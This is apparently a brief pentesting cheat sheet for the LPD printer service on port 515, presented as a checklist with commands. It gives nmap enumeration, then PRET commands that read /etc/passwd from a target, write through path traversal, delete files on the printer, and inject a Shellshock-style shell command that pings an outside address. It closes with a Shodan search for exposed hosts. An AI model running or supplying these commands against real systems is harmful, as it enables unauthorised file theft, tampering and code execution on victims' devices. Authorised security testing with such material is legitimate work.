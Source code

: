 # LPD (Port 515) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating LPD (port 515), I realistically expect:

- [ ] Print job upload/download capability
- [ ] Ability to read/write system files via path traversal
- [ ] Command injection via crafted print jobs (e.g. PostScript, PJL)
- [ ] Misconfigured printers exposing sensitive data

---

## ✅ LPD Pentest Checklist

- [ ] **Identify Service**
    ```bash
    nmap -sV -p 515 <IP>
    ```

- [ ] **Test with PRET**
    - Upload / Download / Delete files, attempt command injection.
    ```bash
    lpdprint.py <IP> file.txt
    lpdtest.py <IP> get /etc/passwd
    lpdtest.py <IP> put ../../etc/passwd
    lpdtest.py <IP> rm /some/file/on/printer
    lpdtest.py <IP> in '() {:;}; ping -c1 1.2.3.4'
    ```

---

## ✅ Shodan Dork

- `port:515`
